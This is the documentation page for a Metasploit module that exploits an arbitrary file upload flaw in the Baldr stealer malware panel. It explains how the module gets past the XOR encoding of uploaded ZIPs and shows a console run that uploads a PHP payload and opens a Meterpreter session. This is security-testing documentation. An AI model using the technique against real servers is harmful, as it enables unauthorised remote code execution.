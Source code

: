 ## Vulnerable Application

### Description

This module exploits an arbitrary file upload vulnerability within the Baldr
stealer malware control panel when uploading victim log files (which are uploaded
as ZIP files). Attackers can turn this vulnerability into an RCE by first
registering a new bot to the panel and then uploading a ZIP file containing
malicious PHP, which will then uploaded to a publicly accessible
directory underneath the /logs web directory.

Note that on versions 3.0 and 3.1 the ZIP files containing the victim log files
are encoded by XORing them with a random 4 byte key. This exploit module gets around
this restriction by retrieving the IP specific XOR key from panel gate before
uploading the malicious ZIP file.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/baldr_upload_exec`
  4. Do `set rhost 192.168.1.27`
  5. Do: `run`
  6. Verify that you get a shell on the target system


## Options

### TARGETURI
The URI where the Baldr panel/gateway is located on the target web server.

## Scenarios
```
msf5 > use exploit/multi/http/baldr_upload_exec 
msf5 exploit(exploit/multi/http/baldr_upload_exec) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(multi/http/baldr_upload_exec) > run

[*] Baldr Version: <= v2.0
[+] Payload uploaded to /logs/FJETBHLL/.vatw.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 192.168.1.27:9090
[*] Sending stage (38288 bytes) to 192.168.1.27
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.1.27:9090) at 2020-07-23 09:49:34 +0300

meterpreter > 
```
